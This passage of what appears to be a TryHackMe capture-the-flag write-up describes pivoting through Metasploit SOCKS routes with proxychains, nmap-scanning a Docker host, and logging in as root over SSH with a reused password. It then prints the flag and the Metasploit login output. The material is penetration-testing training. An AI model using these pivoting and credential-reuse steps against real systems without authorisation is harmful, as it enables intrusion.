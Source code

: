 > We can now proxy calls from localhost (kali) using the defined metasploit routes to relay connections

- Test proxy: `curl --proxy socks5://127.0.0.1:1080 http://172.17.0.1`

> returns the html content seen @ 10.10.199.246

## Proxychains

- `sudo nano /etc/proxychains4.conf`
- add `socks5  127.0.0.1 1080` to the end and save

> Now make any call with `proxychains` infront of it

- `proxychains curl http://172.17.0.1` or
- `proxychains nmap -F -sV -sT 172.17.0.1`:

```console
Nmap scan report for 172.17.0.1
Host is up (0.065s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.33 seconds
```

> Port 22 is open on the docker host. Surely santa reused his credentials ;)

## Connect via SSH

### Either using proxychains 
{: .no_toc}

- `proxychains ssh santa@172.17.0.1` & pw: `p4$$w0rd` -> root
- `ls` & `cat root.tx`:
`THM{47C61A0FA8738BA77308A8A600F88E4B}`

### Or Metasploit 
{: .no_toc}

- `search ssh_login` & `use 0`
- set 'rhosts', 'username' & 'password' & `exploit`

```console
[*] 172.17.0.1:22 - Starting bruteforce
[+] 172.17.0.1:22 - Success: 'santa:p4$$w0rd' 'uid=0(root) gid=0(root) groups=0(root) Linux hostname 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 6 opened (10.8.27.147-10.10.114.115:34142 -> 172.17.0.1:22) at 2022-12-12 11:55:00 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
